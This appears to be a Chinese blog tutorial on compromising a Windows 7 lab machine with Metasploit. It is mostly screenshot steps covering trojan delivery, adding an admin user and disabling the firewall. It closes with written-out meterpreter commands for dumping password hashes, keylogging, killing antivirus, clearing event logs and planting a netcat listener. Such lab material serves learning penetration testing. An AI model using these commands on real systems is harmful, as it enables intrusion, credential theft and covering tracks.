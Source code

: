 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.png
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马
![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`
![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`
![](http://blackfrog.top/img/http.PNG)

##### 启动`msf`
![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功
![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境
![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息
![](http://blackfrog.top/img/route.png)

##### 查看进程`ps`
![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息
![](http://blackfrog.top/img/get.png)

##### 查看`IP`
![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组
![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件
![](http://blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`
![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe

